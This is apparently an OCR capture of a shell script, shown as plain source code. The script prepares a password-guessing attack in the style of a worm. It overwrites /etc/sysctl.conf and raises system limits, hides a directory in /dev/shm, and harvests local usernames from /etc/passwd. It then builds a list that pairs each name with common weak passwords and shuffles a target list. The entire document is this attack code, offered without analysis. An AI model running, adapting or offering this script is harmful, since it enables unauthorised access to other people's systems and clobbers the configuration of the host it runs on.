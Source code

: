 ```
echo "fs.file-max = 2097152" > /etc/sysctl.conf
sysctl -p
ulimit -Hn
ulimit -n 99999 -u 999999

cd /dev/shm
mkdir /dev/shm/.x > /dev/null 2>&1
mv network .x/
cd .x
rm -rf retea ips iptemp ips iplist
sleep 1
rm -rf pass

useri=`cat /etc/passwd |grep -v nologin |grep -v false |grep -v sync |grep -v halt |grep -v shutdown |cut -d: -f1`
echo $useri > .usrs
pasus=.usrs
check=`grep -c . .usrs`

for us in $(cat $pasus) ; do
    printf "$us $us\n" >> pass
    printf "$us "$us"\n" >> pass
    printf "$us "$us"123\n" >> pass
    printf "$us "$us"123456\n" >> pass
    printf "$us 123456\n" >> pass
    printf "$us 1\n" >> pass
    printf "$us 12\n" >> pass
    printf "$us 123\n" >> pass
    printf "$us 1234\n" >> pass
    printf "$us 12345\n" >> pass
    printf "$us 12345678\n" >> pass
    printf "$us 123456789\n" >> pass
    printf "$us 123.com\n" >> pass
    printf "$us 123456.com\n" >> pass
    printf "$us 123\n" >> pass
    printf "$us 1qaz@WSX\n" >> pass
    printf "$us "$us"@123\n" >> pass
    printf "$us "$us"@1234\n" >> pass
    printf "$us "$us"@123456\n" >> pass
    printf "$us "$us"123\n" >> pass
    printf "$us "$us"1234\n" >> pass
    printf "$us "$us"123456\n" >> pass
    printf "$us qwer1234\n" >> pass
    printf "$us 111111\n" >> pass
    printf "$us Passw0rd\n" >> pass
    printf "$us P@ssw0rd\n" >> pass
    printf "$us qaz123!@#\n" >> pass
    printf "$us !@#\n" >> pass
    printf "$us password\n" >> pass
    printf "$us Huawei@123\n" >> pass
done

wait
sleep 0.5
cat bios.txt | sort -R | uniq | uniq > i
cat i > bios.txt

```